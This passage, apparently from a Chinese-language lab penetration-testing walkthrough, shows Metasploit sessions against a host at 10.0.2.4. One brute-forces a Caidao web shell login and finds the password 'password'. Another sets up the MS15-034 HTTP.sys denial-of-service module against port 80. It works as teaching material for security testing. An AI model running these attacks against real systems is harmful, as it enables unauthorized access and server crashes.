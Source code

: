 ```shell

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/caidao_bruteforce_login                                                                                                        

msf6 > use auxiliary/scanner/http/caidao_bruteforce_login
msf6 auxiliary(scanner/http/caidao_bruteforce_login) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
msf6 auxiliary(scanner/http/caidao_bruteforce_login) > set TARGETURI /caidao.asp
TARGETURI => /caidao.asp
msf6 auxiliary(scanner/http/caidao_bruteforce_login) > run

[-] 10.0.2.4:80 - Failed: 'admin'
[-] 10.0.2.4:80 - Failed: '123456'
[-] 10.0.2.4:80 - Failed: '12345'
[-] 10.0.2.4:80 - Failed: '123456789'
[+] 10.0.2.4:80 - Success: 'password'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

找到连接口令：‘password’

## （4）80端口--http

MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞（远程蓝屏代码）

```shell
msf6 > search ms15_034

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  auxiliary/dos/http/ms15_034_ulonglongadd                               normal  Yes    MS15-034 HTTP Protocol Stack Request Handling Denial-of-Service
   1  auxiliary/scanner/http/ms15_034_http_sys_memory_dump                   normal  Yes    MS15-034 HTTP Protocol Stack Request Handling HTTP.SYS Memory Information Disclosure


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/ms15_034_http_sys_memory_dump                                                                                                  

msf6 > use auxiliary/dos/http/ms15_034_ulonglongadd 
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > show options 

Module options (auxiliary/dos/http/ms15_034_ulonglongadd):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.2.4         yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                         k/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```
